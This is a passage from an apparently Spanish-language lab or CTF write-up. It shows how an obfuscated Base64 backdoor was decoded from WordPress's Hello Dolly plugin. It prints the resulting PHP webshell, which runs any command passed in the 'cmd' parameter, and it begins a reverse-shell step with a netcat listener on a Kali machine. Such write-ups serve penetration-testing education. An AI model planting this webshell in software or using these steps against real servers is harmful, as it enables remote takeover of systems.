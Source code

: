 3. Decodificación de la Backdoor

El código ofuscado estaba codificado en Base64. Procedimos a decodificarlo en el terminal:

<img width="1024" height="74" alt="decodificando encontramos la backdorr" src="https://github.com/user-attachments/assets/acb93ac4-79e4-421a-9ae6-6eb932b96d2c" />

````
$ echo 'CiBifCAgaXNzZXQoJF9HRVNbInB0cCJdKSB7IHN5c3RlbSg...KbLSF2YopefW3rJZGZG9aZGG' | base64 -d

# Resultado (Decodificado):
if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }
````
La backdoor es un webshell simple que utiliza variables codificadas. Decodificamos las variables para obtener los nombres de los parámetros:

<img width="459" height="72" alt="decodificamos las variables" src="https://github.com/user-attachments/assets/669ad0a4-38d1-404d-b96f-bab1a83066c5" />

````
$ php -r 'echo "\143\155\x64" . ":" . "\143\x6d\144";'
# Resultado:
cmd:cmd
````
El código de la backdoor final es:
````
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }
````

## 🐚 Paso 7: Obtención de la Reverse Shell

Habiendo confirmado la Ejecución de Código Remoto (RCE) a través de la *backdoor* en el *plugin* **Hello Dolly**, el siguiente objetivo es escalar a una **Reverse Shell** interactiva en la máquina atacante (Kali).

### 📝 Objetivo

Utilizar la capacidad de RCE para ejecutar un comando que fuerce al servidor objetivo a conectarse de vuelta a nuestra máquina.

### 1. Configuración del Listener

En la máquina atacante (Kali), se configura un *listener* (escuchador) usando `netcat` en un puerto específico (en este caso, **4444**) para esperar la conexión entrante.

```bash
$ nc -lvnp 4444
listening on [0.0.0.0] 4444 ...
````
2. Generación del Comando de Reverse Shell

Se utiliza una herramienta de generación de shells (como la mostrada en la captura) para crear un comando de reverse shell que se adapte a la sintaxis del RCE, codificado en URL para la petición HTTP. El comando de shell utilizado es a menudo una variante de netcat o bash.

<img width="1146" height="679" alt="genero un reverseshell" src="https://github.com/user-attachments/assets/98234dce-a748-401d-958a-8b5d9676ff8b" />
